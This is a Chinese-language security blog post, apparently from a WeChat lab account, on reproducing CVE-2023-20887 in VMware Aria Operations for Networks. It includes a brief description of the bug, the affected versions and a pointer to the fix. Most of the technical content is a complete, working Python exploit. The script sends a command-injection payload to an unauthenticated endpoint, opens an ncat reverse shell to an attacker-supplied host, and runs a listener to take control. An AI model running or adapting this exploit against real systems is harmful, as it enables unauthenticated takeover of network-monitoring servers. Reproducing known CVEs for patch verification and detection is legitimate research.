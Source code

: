 #  CVE-2023-20887漏洞复现

巢安实验室  [ 巢安实验室 ](javascript:void\(0\);)

**巢安实验室** ![]()

微信号 safe-labs

功能介绍 为荣誉而战，为的是那份自己不屈服于任何人，踢踏是脚下的尊严。

____

___发表于_

收录于合集 #漏洞复现 67个

![](https://gitee.com/fuli009/images/raw/master/public/20230617194503.png)  

**一. 漏洞介绍**

CVE-2023-20887 是 VMware Aria Operations for Networks 中的命令注入漏洞，可用于实现远程代码执行
(RCE)。正如 Summoning Team
的博客文章中所述，此漏洞的存在是由于两个问题的连锁反应。第一个问题是命令注入缺陷，但要到达易受攻击的代码，必须向由于 nginx
规则集而应被拒绝的端点发出请求。但是，该博客指出可以通过特制请求绕过该规则。通过在精心设计的请求中将这两个问题链接在一起，它将允许未经身份验证的攻击者实现
RCE。

CVE-2023-20888 是 VMware Aria Operations for Networks
中的一个反序列化漏洞。具有有效“成员”角色凭据的经过身份验证的攻击者可以使用精心设计的请求来执行反序列化攻击，从而导致 RCE。

CVE-2023-20889 是 VMware Aria Operations for Networks
中的一个信息泄露漏洞。具有网络访问权限的经过身份验证的攻击者可以执行命令注入攻击，这将导致数据泄露。

 **二. 影响范围**

 Aria Operations for Networks versions 6.2 / 6.3 / 6.4 / 6.5.1 / 6.6 / 6.7 /
6.8 / 6.9 / 6.10。

 **五. 漏洞修复**

            由于没有解决方法，VMware 建议更新到固定版本。

 **六. 漏洞检测POC**

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
     """VMWare Aria Operations for Networks (vRealize Network Insight) pre-authenticated RCEVersion: 6.8.0.1666364233Exploit By: Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)A root cause analysis of the vulnerability can be found on my blog:https://summoning.team/blog/vmware-vrealize-network-insight-rce-cve-2023-20887/"""import warningswarnings.filterwarnings("ignore", category=DeprecationWarning)import requestsfrom threading import Threadimport argparsefrom telnetlib import Telnetimport socketrequests.packages.urllib3.disable_warnings()  
      
      
    argparser = argparse.ArgumentParser()argparser.add_argument("--url", help="VRNI URL", required=True)argparser.add_argument("--attacker", help="Attacker listening IP:PORT (example: 192.168.1.10:1337)", required=True)  
    args = argparser.parse_args()  
      
      
      
    def handler():    print("(*) Starting handler")    t = Telnet()    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)    s.bind((args.attacker.split(":")[0],int(args.attacker.split(":")[1])))    s.listen(1)    conn, addr= s.accept()    print(f"(+) Received connection from {addr[0]}")    t.sock = conn    print("(+) pop thy shell! (it's ready)")    t.interact()  
    def start_handler():    t = Thread(target=handler)    t.daemon = True    t.start()  
      
    def exploit():    url = args.url + "/saas./resttosaasservlet"    revshell = f'ncat {args.attacker.split(":")[0]} {args.attacker.split(":")[1]} -e /bin/sh'    payload = """[1,"createSupportBundle",1,0,{"1":{"str":"1111"},"2":{"str":"`"""+revshell+"""`"},"3":{"str":"value3"},"4":{"lst":["str",2,"AAAA","BBBB"]}}]"""    result = requests.post(url, headers={"Content-Type":"application/x-thrift"}, verify=False, data=payload)  
    print("VMWare Aria Operations for Networks (vRealize Network Insight) pre-authenticated RCE || Sina Kheirkhah (@SinSinology) of Summoning Team (@SummoningTeam)")start_handler()exploit()  
    try:    while True:        passexcept KeyboardInterrupt:    print("(*) Exiting...")    exit(0)

![](https://gitee.com/fuli009/images/raw/master/public/20230617194505.png)

 **七.参考链接**  

  *   *   *   *   * 

    
    
     https://kb.vmware.com/s/article/92684https://nvd.nist.gov/vuln/detail/CVE-2023-20887https://securityonline.info/poc-released-for-vmware-aria-operations-for-networks-rce-cve-2023-20887-bug/https://www.helpnetsecurity.com/2023/06/15/cve-2023-20887-poc-exploit/https://github.com/sinsinology/CVE-2023-20887

 **本文版权归作者和微信公众号平台共有，重在学习交流，不以任何盈利为目的，欢迎转载。**

 **  
**

**由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。文库内容中部分攻防技巧等只允许在目标授权的情况下进行使用，大部分文章来自各大安全社区，个人博客，如有侵权请立即联系公众号进行删除。若不同意以上警告信息请立即退出浏览！！！**

 **  
**

 **敲敲小黑板：《刑法》第二百八十五条
【非法侵入计算机信息系统罪；非法获取计算机信息系统数据、非法控制计算机信息系统罪】违反国家规定，侵入国家事务、国防建设、尖端科学技术领域的计算机信息系统的，处三年以下有期徒刑或者拘役。违反国家规定，侵入前款规定以外的计算机信息系统或者采用其他技术手段，获取该计算机信息系统中存储、处理或者传输的数据，或者对该计算机信息系统实施非法控制，情节严重的，处三年以下有期徒刑或者拘役，并处或者单处罚金；情节特别严重的，处三年以上七年以下有期徒刑，并处罚金。**

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

